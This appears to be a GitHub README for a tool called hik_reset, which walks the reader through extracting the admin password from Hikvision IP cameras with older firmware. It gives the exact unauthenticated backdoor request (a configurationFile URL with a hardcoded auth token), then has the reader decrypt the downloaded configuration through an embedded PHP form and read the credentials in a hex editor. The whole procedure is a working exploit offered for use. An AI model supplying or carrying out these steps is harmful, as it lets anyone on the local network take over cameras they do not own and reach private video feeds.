 # hik_reset
Hikvision backdoor IP camera

Requirements: Ubuntu 18, php 7, Apache, OpenJDK 8

<p><b>You can view the password from the camera without even resetting its settings
<p>List of requirements</b>

<p>1. The firmware version on the camera must be 5.4.4 or lower. Use SADP Tool to check
<p>2. Your PC or laptop must be on the same local network as the camera
<h2>Instructions</h2>

<p>1. Download and install the SADP Tool program on your PC or laptop
<br><a href="https://www.hikvision.com/en/support/tools/destop-tools/sadp-for-windows/#download-agreement" target="_blank" ><b>Download link</b></a>

<p>2. Go to the following IP address in your browser
<br>http://<i><b>camera_ip</i></b>/System/configurationFile?auth=YWRtaW46MTEK
<br>Where, camera_ip - IP address of the camera. You can find out IP using the <a href="https://www.hikvision.com/en/support/tools/destop-tools/sadp-for-windows/#download-agreement" target="_blank" ><b>SADP program</b></a>
<p>3.Using the form below, submit the file (configurationFile) that you downloaded earlier, then click for <b>Decrypt</b> and <b>Download File</b>

<p><iframe src="/hik_reset.php" name="mainframe" width="100%" height="400px" frameborder="0" scrolling="auto"> </iframe>



<p>4. The file that you downloaded from the server (the file will have the name 6bf2bc3e2e31b280d83051dfa7444e22plaintextOutput, the name changes every time) should be uploaded to the site with the online HEX editor
<br><a href="https://hexed.it/" target="_blank" ><b>https://hexed.it</b></a>
<p>5.Use the camera web interface and Internet Explorer to enter the camera

<b><center>An example of the script
http://hik.cctv-world.space/en.html
